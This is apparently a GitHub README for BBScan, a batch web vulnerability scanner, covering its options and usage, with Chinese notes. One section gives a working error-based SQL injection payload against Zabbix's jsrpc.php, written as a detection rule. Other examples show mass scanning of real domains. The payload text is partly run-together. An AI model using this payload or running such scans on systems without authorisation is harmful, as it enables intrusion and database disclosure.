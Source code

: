 # BBScan 1.1.0 #

**BBScan** is a tiny **B**atch we**B** vulnerability **Scan**ner.


## Requirements ##
* BeautifulSoup4==4.3.2
* py2-ipaddress==3.4.1

You can install required packages with pip

	pip install -r requirements.txt

## Usage ##

	usage: BBScan.py [options]
	
	* A tiny Batch weB vulnerability Scanner. *
	By LiJieJie (http://www.lijiejie.com)
	
	optional arguments:
	  -h, --help            show this help message and exit
	  --host HOST [HOST2 HOST3 ...]
	                        Scan several hosts from command line
	  -f TargetFile         Load targets from TargetFile
	  -d TargetDirectory    Load all *.txt files from TargetDirectory
	  --crawler TargetDirectory
	                        Load all *.log crawler file from TargetDirectory
	  --full-scan           Process all sub directories.
	  -n, --no-crawl        No crawling, sub folders will not be processed.
	  -nn, --no-check404    No HTTP 404 existence check
	  -p PROCESS            Num of processes running concurrently, 10 by default
	  -t THREADS            Num of scan threads for each scan process, 8 by default
	  --network MASK        Scan all Target/MASK hosts,
	                        should be an int between 24 and 31
	  --timeout Timeout     Max scan minutes for each website, 20 by default
	  --browser             View report with browser after scan finished.
	  -v                    show program's version number and exit

**1. Scan several hosts from command line** 

	python BBScan.py  --host www.a.com www.b.com --browser

**2. Scan www.target.com and all the other IPs under www.target.com/28**

	python BBScan.py  --host www.target.com --network 28 --browser
	
**3. Load newline delimetered targets from file and scan**
	
	python BBScan.py -f wandoujia.com.txt

**4. Load all targets from Directory(\*.txt file only) and scan**

	python BBScan.py -d targets/

**5. Load crawler logs from Directory(\*.log file only) and scan**

	python BBScan.py --crawler crawler_logs/

crawler log files should be formarted first:

			. GET http://www.iqiyi.com/ HTTP/1.1^^^200
			. POST http://www.pps.tv/login.php HTTP/1.1^^^user=admin&passwd=admin^^^200


## 使用说明 ##

BBScan是一个迷你的信息泄漏批量扫描脚本。 可以通过文本批量导入主机或URL，以换行符分割。
	
`--crawler` 参数是v1.1新增的，可以导入爬虫日志发起扫描。 日志的格式，我们约定如下：

			Request Line + 三个尖括号 + [POST请求body] + 三个尖括号 + HTTP状态码
示例如下：

			. GET http://www.iqiyi.com/ HTTP/1.1^^^200
			. POST http://www.pps.tv/login.php HTTP/1.1^^^user=admin&passwd=admin^^^200

`--full-scan`  处理所有的子文件夹，比如 `http://www.target.com/aa/bb/cc/`, `/aa/bb/cc/` `/aa/bb/` `/aa/` 三个path都将被扫描

`-n, --no-crawl`  不从首页抓取新的URL

`-nn, --no-check404` 不检查状态码404是否存在，不保存404页面的大小进行后续比对


## web漏洞应急中的简单应用 ##

以批量扫描 Zabbix SQL注入为例，在一个txt文件中写入规则：

	/zabbix/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&tamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=1zabbix/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&tim%20estamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=hi%20story.php&profileIdx=web.item.graph&profileIdx2=(select%201%20from%20(select%20count(*),concat(floor(rand(0)*2),%20user())x%20from%20information_schema.character_sets%20group%20by%20x)y)&updateProfil%20e=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=%2017&itemids%5B23297%5D=23297&action=showlatest&filter=&filter_task=&%20mark_color=1    {tag="Duplicate entry"}  {status=200}  {type="text/plain"}
	
	/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&stamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=1zabbix/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&tim%20estamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=hi%20story.php&profileIdx=web.item.graph&profileIdx2=(select%201%20from%20(select%20count(*),concat(floor(rand(0)*2),%20user())x%20from%20information_schema.character_sets%20group%20by%20x)y)&updateProfil%20e=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=%2017&itemids%5B23297%5D=23297&action=showlatest&filter=&filter_task=&%20mark_color=1          {tag="Duplicate entry"}  {status=200}  {type="text/plain"}

把所有HTTP like的服务写入 iqiyi.http.txt：

	不要抓首页
	不要检测404
	并发2个线程、 50个进程

可以比较迅速地扫完几万个域名和IP地址：

	BBScan.py --no-crawl --no-check404 -t2 -p50 -f iqiyi.http.txt


该插件是从内部扫描器中抽离出来的，感谢 `Jekkay Hu<34538980[at]qq.com>` ，欢迎提交有用的新规则	
